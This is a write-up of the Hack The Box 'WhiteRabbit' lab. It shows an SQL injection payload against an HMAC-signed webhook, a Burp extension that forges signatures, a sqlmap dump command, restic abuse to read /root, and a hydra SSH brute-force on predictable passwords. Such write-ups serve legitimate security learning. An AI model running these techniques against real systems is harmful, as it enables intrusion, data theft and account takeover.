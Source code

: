 
# HTB WhiteRabbit - Writeup (English)

**Platform:** Linux  
**IP:** 10.10.11.63  
**Difficulty:** Insane  
**Author:** NoSec  

## Reconnaissance

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```

Service info: The OS is likely Linux-based, and the Caddy web server is running.

---

## Preparation

- **Edit hosts file**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    ```

- **Clock skew fix (if needed)**
    ```bash
    sudo rdate -n whiterabbit.htb
    ```

---

## Subdomain & Web Exploration

**Subdomain discovery:**

By brute-forcing the `/status/` endpoint on `whiterabbit.htb` (e.g., with gobuster or ffuf), I discovered `status.whiterabbit.htb`, which runs Uptime Kuma. A bit more digging (on [redacted URL]) led me to `/status/temp/`, where I found new subdomains:

- GoPhish: `ddb0<link>.whiterabbit.htb`
- Wiki.js: `a668<link>.whiterabbit.htb`

**Webhook investigation:**

The Wiki.js endpoint (on [redacted URL]) revealed a webhook pointing to `28e<link>.whiterabbit.htb`, which looked suspicious.

---

## Exploitation

### SQLi in Webhook

The webhook required an `x-gophish-signature` HMAC signature. I extracted the secret key from:

Source: [redacted URL]  
Key: `3CWV<key>`

I generated the HMAC using CyberChef ([redacted URL]) and tried an SQLi payload:

```bash
{"campaign_id":2,"email":"test \$"","message":"Clicked Link"}
```

I got a MySQL error, confirming the endpoint is vulnerable!

---

### Burp Suite Automation

Manual testing was too slow, so I wrote a Burp extension that automatically adds the HMAC header:

```python
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```

Installed via Burp's Custom Extensions feature:  
🔗 https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/

---

### SQLmap Attack

I automated the SQLi attack with sqlmap:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Date                | Command                                                 |
|-----|---------------------|----------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                              |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL]`               |

---

## Privilege Escalation

### Exploiting Restic

I found a Restic repository at [redacted URL] with the password: `ygcsv<redacted>`.  
Using it, I created a backup of `/root/`:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```

I extracted an SSH private key for the user `morpheus` and logged in:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt
```

✅ User flag acquired!

---

### Neo Password Generation

I found a binary at `/opt/neo-password-generator/neopassword-generator` and analyzed it with Ghidra.  
It uses `gettimeofday()` as a seed:

- Seed formula: `tv_sec * 1000 + tv_usec / 1000`
- Then it generates a 20-character password using `rand() % 62`.

Since Neo executed it at `2024-08-30 14:40:42`, I knew the `tv_sec`, but had to bruteforce the microseconds (0–999).  
Here’s a sample Python brute-force script:

```python
from ctypes import CDLL
import datetime
libc = CDLL("libc.so.6")
seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone.utc).timestamp()
for i in range(0, 1000):
```

Generated passwords were saved:

```bash
python3 password_generator.py > passwords.txt
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Password found:
```nginx
WB<pass>
```

Once inside via SSH, I just used:

```bash
sudo -su
```

...and boom — got the root flag:

```bash
root@whiterabbit:~# ls
root.txt
```

---

### 🧠 Notes & Reflections – What I learned from this box

- **Webhook & SQLi abuse:** The vulnerabilities in Uptime Kuma were exciting to explore, especially with the custom HMAC handling.  
- **Restic exploitation:** Surprisingly, this backup tool enabled full privilege escalation.  
- **Binary analysis:** Brute-forcing a password generated via `gettimeofday()` required real brainwork.  
- **Automation:** Using Burp Suite and sqlmap saved tons of time, especially dealing with the HMAC headers.

---

### ⚠️ Mistakes, Pitfalls & Tips

- **Watch your clock skew!** If the system time is off, SSH and other steps can fail.  
- **Be patient with brute-force.** It took a while to find the `/status/temp/` endpoint — using the right wordlist matters.  
- **Document without spoilers.** Don’t give everything away so others can still enjoy the challenge.  
- **Double-check everything.** I verified the HMAC key twice before launching sqlmap.

---

### ✅ Summary

WhiteRabbit is a beautifully crafted box — it walks you through solid web exploitation and creative Linux privesc.  
The combination of Uptime Kuma, SQLi, Restic, and binary analysis makes this a real treat for any pentester.

Both flags captured — user and root — so I’m very satisfied. 🚀

---

**Highly recommended** for anyone who enjoys challenges and prefers creative Linux pwns over AD boxes.  
If you’ve got questions — hit me up! 💬
